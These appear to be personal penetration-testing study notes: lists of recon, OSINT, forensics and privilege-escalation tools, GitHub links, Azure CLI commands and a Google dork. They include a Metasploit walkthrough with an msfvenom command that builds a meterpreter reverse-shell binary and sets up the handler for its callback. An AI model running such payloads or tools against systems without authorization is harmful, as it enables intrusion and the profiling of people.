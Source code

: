 # stuff to try and then put on a "correct" place in the step_by_Step

{url}/robots.txt
crt.sh
sublister

pestudio
procexp
procmon
cff explorer

msfconsole
systemctl start postgresql
msfdb init
db_status 
workspace -a {name}
db_nmap -sV -p- {ip}
use {exploit}
hosts -R
msfvenom #generate shell binarys fe: msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={ip} LPORT=4444 -f elf > rev_shell.elf
use exploit/multi/handler #same as nc -lvnp {port}
set payload linux/x86/meterpreter/reverse_tcp
set lhost {ip}
set lport 4444
ctrl+z #session in the background to use for later

kerbrute
go witnes
nuclei
caido
lazygit
git bisect
wpscan
dirsearch
spiderfoeot
sherlock
gitleaks

https://threatfox.abuse.ch/browse/
https://sslbl.abuse.ch/

https://learn.microsoft.com/en-us/security/

https://learn.microsoft.com/en-us/training/browse/?hideCompleted=true&levels=beginner&subjects=security&resource_type=learning%20path&roles=security-engineer

authenticate network time protocol
Als gespoofd kan ddos voor authenticatie denyen doordat time niet goed is
certificate can "expire"

MICROSoft cloud defender
intel explorer

https://docs.google.com/file/d/0B7d_gqEI7itKMTJxc0dycFhvUmM/edit?resourcekey=0-UVtEXBuq4nWE75ZNCmKw8g

https://github.com/freelabz/secator

https://github.com/hacking-support/DVUEFI

http://www.catb.org/esr/faqs/hacker-howto.html

C:\Windows\ImmersiveControlPanel\Settings\AllSystemSettings_{253E530E-387D-4BC2-959D-E6F86122E5F2}.xml

emailrep.io

dirbuster

flask-unsign

https://github.com/p1ngul1n0/blackbird
https://github.com/RevoltSecurities/Subdominator
https://github.com/Sn1r/Forbidden-Buster
https://github.com/lobuhi/byp4xx
https://github.com/iamj0ker/bypass-403
https://github.com/dirtycoder0124/formcrawler
https://github.com/shaikhsajid1111/social-media-profile-scrapers
https://github.com/m4ll0k/SecretFinder
https://github.com/martinvigo/email2phonenumber?tab=readme-ov-file
https://github.com/z0m31en7/Uscrapper
https://github.com/twelvesec/gasmask
https://github.com/un9nplayer/AutoRecon-XSS
https://github.com/gtworek/PSBits/tree/master/NetShRun
https://github.com/PaulNorman01/Forensia
https://github.com/z0m31en7/Uscrapper
https://github.com/XDeadHackerX/NetSoc_OSINT
https://github.com/lefayjey/linWinPwn
https://github.com/0x2458bughunt/SQLi-Automation
https://github.com/projectdiscovery/cdncheck
https://github.com/EmperialX/XSS-Automation-Tool
https://github.com/ethicalhackingplayground/pathbuster
https://github.com/channyein1337/jsleak
https://github.com/MattKeeley/Spoofy
https://github.com/projectdiscovery/notify
https://github.com/gwen001/gitpillage
https://github.com/securebinary/o365sprayer
https://github.com/lc/theftfuzzer
https://github.com/GerbenJavado/LinkFinder
https://github.com/tomnomnom/unfurl
https://github.com/peass-ng/PEASS-ng
https://github.com/rebootuser/LinEnum
https://github.com/DominicBreuker/pspy
https://github.com/linted/linuxprivchecker




sherlock -u ausername
gitdumper
katana
corscanner
sshbrute
intel one
eagleeye
xss2png
getallurls

site:{site.com} inurl:test | inurl:env | inurl:dev | inurl:staging | inurl:sandbox | inurl:debug | inurl:temp | inurl:internal | inurl:demo

impacket

az interactive: so no az needs to be typed each time
az upgrade
az vm list
az vm list-ip-addresses
az network public-ip list
az network nsg list --query '[].name' --output tsv

https://techcommunity.microsoft.com/t5/security-compliance-and-identity/join-our-microsoft-security-community/ba-p/927888
veeamclick.be
